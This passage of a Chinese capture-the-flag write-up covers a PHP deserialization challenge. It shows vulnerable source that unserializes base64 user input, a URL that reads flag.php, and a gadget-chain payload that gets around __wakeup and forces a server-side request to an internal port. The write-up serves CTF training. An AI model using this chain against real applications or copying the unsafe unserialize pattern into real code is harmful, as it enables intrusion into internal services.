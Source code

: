 ```php
        $path_info = $_GET['path_info'];
        $FV = unserialize(base64_decode($path_info));
        $FV->loadfile();
    }else{
        $path = "vergil.jpg";
        echo '<h2>POWER!!</h2>
        <img src="data:jpg;base64,'.base64_encode(file_get_contents($path)).'"/>';
    }
}
?>
```

先读取 flag.php

````
http://43.142.108.3:28827/?image_path=flag.php
````

base64 解密

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202210250935614.png)

提示真正的 flag 在 `127.0.0.1:65500`, 那么就需要使用那两个类来进行 ssrf

FileViewer 类有 \_\_wakeup, 但题目 php 版本有点高, 无法改数字绕过, 这时候就需要换个思路

注意到 Backdoor 类的 goodman 方法可以修改某个对象的属性, 而 goodman 又是在 \_\_destruct 里被触发的, 刚好在 \_\_wakeup 之后

那么就可以在 \_\_destruct 的时候重新给 FileViewer 赋值 local, 从而间接地绕过 \_\_wakeup

payload 如下

```php
<?php
class FileViewer{
    public $local = "http://127.0.0.1:65500/";
    public $path = '';
}
    class Backdoor{
    public $a;
    public $b;
    public $superhacker;
}

$y = new FileViewer();
$x = new Backdoor();
$x->a = $y;
$x->b = 'local';
$x->superhacker = 'http://127.0.0.1:65500/';
$z = new FileViewer();
$z->test = $x;
echo base64_encode(serialize($z));
```

注意程序在 unserialize 之后会调用 `$FV->loadfile();`, 如果 `$FV` 不是 FileViewer 类的实例则会抛出异常, 导致 Backdoor 类的 \_\_destruct 不会成功执行
